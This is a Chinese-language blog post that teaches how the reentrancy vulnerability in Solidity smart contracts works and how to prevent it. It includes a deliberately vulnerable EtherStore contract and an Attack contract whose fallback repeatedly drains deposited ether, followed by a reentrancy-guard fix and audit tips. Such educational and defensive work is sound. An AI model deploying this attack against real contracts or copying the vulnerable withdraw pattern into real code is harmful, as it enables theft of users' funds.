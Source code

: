 ```yaml
---
date: 2022-06-17
layout: post
title: 重入漏洞分析
description: 详解重入漏洞的原理和攻击方法
image:![Uploading IMG_4205(20220621-160652).JPG…]()
category: study
tags:
 - solidity
 - contract security
 - vulnerability analyse
author: aventusc
---
```


### 前置知识

以太坊智能合约的特点之一是合约之间可以进行相互间的外部调用。同时，以太坊的转账不仅仅局限于外部账户，合约账户同样可以拥有以太并进行转账等操作，且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用。

**发送以太的方式：**

- `transfer` (2300 gas, 抛出错误)
- `send` (2300 gas, 返回布尔值)
- `call` (转发所有 gas 或设置 gas，返回布尔值)

*注：括号中是这个方法的执行操作，他们的第一个返回值都要么是布尔值要么是抛出错误。*

**接收以太的方式：**

接收 Ether 的合约**必须至少**具有以下函数之一

- `receive() external payable`
- `fallback() external payable`

*如果 `msg.data` 为空，则调用 `receive()` ，否则调用 `fallback()`。*

我们先给重入漏洞下个定义：可以认为合约中所有的外部调用都是不安全的，都有可能存在重入漏洞。例如：如果外部调用的目标是一个攻击者可以控制的**恶意合约A**，那么当**被攻击的合约B**在调用**恶意合约A**的时候攻击者可以执行**恶意的逻辑C**然后再重新进入到**被攻击合约B**的内部，通过这样的方式来发起一笔非预期的外部调用，从而影响**被攻击合约B**正常的执行逻辑。

### 漏洞示例

举个例子来对重入攻击的原理进行分析：

下面面的代码：`EtherStore` 就是个普通的充提币的合约，凭什么说他有重入攻击呢？我们来看这个合约的 `withdraw` 函数，这个函数中的转账操作有一个外部调用（msg.sender.call{value: bal}），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：

1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 `fallback` 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
2. 我们可以看到在 `withdraw` 函数中是先执行外部调用进行转账后才将账户余额清零的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 `balance[msg.sender]=0` 之前一直循环调用 `withdraw` 函数一直提币从而将合约账户清空呢？

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

/*
我们看到 EtherStore 合约是一个充提合约，我们可以在其中充提以太。
该合约会受到重入攻击
让我们看看为什么。

1. 部署 EtherStore 合约；
2. 用户 1（Alice）和用户 2（Bob）都分别将 1 个以太币充值到 EtherStore 合约中；
3. 攻击者 Eve 部署 Attack 合约时传入 EtherStore 合约的地址；
4. 攻击者 Eve 调用 Attack.attack 函数，Attack.attack 又调用 EtherStore.deposit 函数，
    充值 1 个以太币到 EtherStore 合约中，此时 EtherStore 合约中共有 3 个以太，
    分别为 Alice、Bob 的 2 个以太和攻击者 Eve 刚刚充值进去的 1 个以太。
    然后 Attack.attack 又调用 EtherStore.withdraw 函数将自己刚刚充值的以太取出，
    此时 EtherStore 合约中就只剩下 Alice、Bob 的 2 个以太了；

接下来会发送什么？
当 Attack.attack 调用 EtherStore.withdraw 提取了先前 Eve 充值的 1 个以太时会触发 Attack.fallback 函数。
这时只要 EtherStore 合约中的以太大于或等于 1 Attack.fallback 就会一直调用 EtherStore.withdraw 函数将 EtherStore 合约中的以太提取到 Attack 合约中，直到 EtherStore 合约中的以太小于 1 。
这样攻击者 Eve 会得到 EtherStore 合约中剩下的 2 个以太币（Alice、Bob 充值的两枚以太币）。

下面是攻击者的函数调用流程：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); //选择性处理多返回值，将
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### 修复建议

1. 作为开发人员

看了上面的攻击手法相信大家对重入漏洞都会有一个自己的认知，但是只会攻击可不行，我们的目的是为了防御，那么作为开发人员如何避免写出漏洞代码还有作为审计人员如何快速发现问题代码呢，下面我们就以这两个身份来分析如何防御重入漏洞和如何在代码中快速找出重入漏洞：

- 写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）；
- 加入防重入锁。

下面是一个防重入锁的代码示例：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```

1. 作为审计人员

作为审计人员我们需要关注的是重入漏洞的特征：所有涉及到外部合约调用的代码位置都是不安全的。这样在审计过程中需要重点关注外部调用，然后推演外部调用可能产生的危害，这样就能判断这个地方是否会因为重入点而产生危害。
